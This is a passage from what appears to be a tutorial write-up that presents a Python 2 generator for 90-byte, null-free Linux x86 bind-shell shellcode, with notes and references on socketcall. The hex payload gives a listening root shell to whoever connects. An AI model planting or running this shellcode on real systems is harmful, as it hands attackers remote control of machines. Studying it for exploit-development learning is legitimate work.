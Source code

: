 ```python
    exit()  
  
if port <= 1000:  
    print "Port will bind only if run as root"  
  
# ugly code, don't look  
port = format(port, '04x')  
port = "\\x" + str(port[2:4]) + "\\x" + str(port[0:2])  
  
sc = "\\x6a\\x66\\x58\\x99\\x31\\xdb\\x43\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x96\\x52\\x43\\x66\\x68" + port + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x56\\x89\\xe1\\x6a\\x66\\x58\\xcd\\x80\\x53\\x56\\x89\\xe1\\x6a\\x66\\x58\\x43\\x43\\xcd\\x80\\x52\\x52\\x56\\x89\\xe1\\x43\\xb0\\x66\\xcd\\x80\\x93\\x31\\xc9\\xb0\\x3f\\xcd\\x80\\x41\\x80\\xf9\\x04\\x75\\xf6\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"  
  
print "Shellcode generated:"  
print sc  
```    

---

## Final notes

1\. Shellcode is **null free** assuming the port number is too.  
2\. Shellcode size is **90 bytes**.  
3\. Shellcode is **register-independant**.  
  

## References:

1\. <http://man7.org/linux/man-pages/man2/socketcall.2.html>
2\. <http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210>
3\. Hacking: The Art of Exploitation (2nd Edition) - Chapter 4 and 5  
  
\- Abatchy

